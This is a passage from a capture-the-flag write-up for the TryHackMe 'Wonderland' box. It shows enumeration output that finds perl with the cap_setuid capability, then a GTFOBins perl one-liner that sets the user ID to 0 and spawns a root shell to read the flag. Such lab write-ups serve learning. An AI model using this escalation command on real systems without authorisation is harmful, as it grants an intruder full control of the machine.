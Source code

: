 ```text
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.4 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
[-] Hostname:
wonderland

### USER/GROUP ##########################################
[-] Current user/group info:
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
[-] Users that have previously logged onto the system:
Username         Port     From             Latest
tryhackme        pts/0    10.8.6.110       Fri Jun  5 22:28:57 +0000 2020
alice            pts/1    192.168.170.1    Mon May 25 16:37:21 +0000 2020
hatter           pts/0    10.9.17.195      Sat Jun  6 16:55:03 +0000 2020
[-] Who else is logged on:
 16:58:23 up 5 min,  1 user,  load average: 1.46, 1.72, 0.84
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
hatter   pts/0    10.9.17.195      16:55    7.00s  0.74s  0.08s w

<<SNIP>>

[+] Files with POSIX capabilities set:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

## Root Flag

Capabilities is a well known attack vector. [GTFOBins](https://gtfobins.github.io/) has lots of really good information about the many UNIX/Linux binaries that can be abused. [This](https://gtfobins.github.io/gtfobins/perl) section talks about Perl and what you can do with CAP_SETUID being set.

From that article I took this command:

```text
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Here we run it on the box to get root, and finally the flag:

```text
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)

# cat /home/alice/root.txt
<<HIDDEN>>
```

All done. See you next time.
